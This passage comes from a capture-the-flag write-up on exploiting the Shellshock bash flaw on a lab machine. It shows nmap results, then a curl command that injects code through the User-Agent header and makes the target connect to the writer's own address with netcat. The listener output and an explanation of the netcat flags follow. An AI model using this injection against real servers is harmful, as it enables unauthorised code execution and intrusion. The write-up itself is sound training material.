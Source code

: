 ``` bash
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 0.88 seconds
```

Well look at that, it reports vulnerable! (imagine my shock - pun 100% intended)

<br>

# Exploitation
---

Alright, let's just double-check and see if we can manually inject code.

First we'll start a netcat listener using `nc -lnvp 12345`, then we'll execute the following:

``` bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo BRADMAN | nc 10.10.16.192 12345'" http://10.10.10.56/cgi-bin/user.sh
```

Okay, okay, slow down, what the hell did I just do?

Let's start at `nc -lnvp 12345`, this is going to open up a **network listener** on our local machine on port 12345, meaning we are opening up that port and reporting back any connection information sent to it. We do this with the flag `-lnvp`:
1. `-l`: Listener mode for inbound connects
2. `-n`: numeric IP Addresses only, no dns
3. `-v`: verbose mode
4. `-p PORT`: the port we're wanting to open up, in this case: 12345

NetCat is pretty cool and lets us just string all these flags together as `-lnvp` or `-nvlp` or `-vlnp` or ... well... you should get the idea.

Next, we need to actually exploit ShellShock - there are super good explanations online for ShellShock, [this one is one of my favorite's.](https://community.broadcom.com/symantecenterprise/communities/community-home/librarydocuments/viewdocument?DocumentKey=5ee60f4e-030f-4691-b5b4-dc3c9e3701d4&CommunityKey=1ecf5f55-9545-44d6-b0f4-4e4a7f5f5e68&tab=librarydocuments) I recommend reading through that if you're unfamiliar with ShellShock.

So, my actual payload in the `curl` command is<br>
`/bin/bash -c 'echo BRADMAN | nc 10.10.16.192 12345'` <br>
 What this does **echo**'s "BRADMAN" to netcat, but instead of listening, we're actually connecting to an IP Address, specifically, my attacker box, and on the port we opened, 12345. When we execute this curl command, we get the following on our netcat listener:

```bash
┌──(kali㉿kali)-[~/htb/Shocker]
└─$ nc -lnvp 12345  
listening on [any] 12345 ...
connect to [10.10.16.192] from (UNKNOWN) [10.10.10.56] 48194
BRADMAN
```
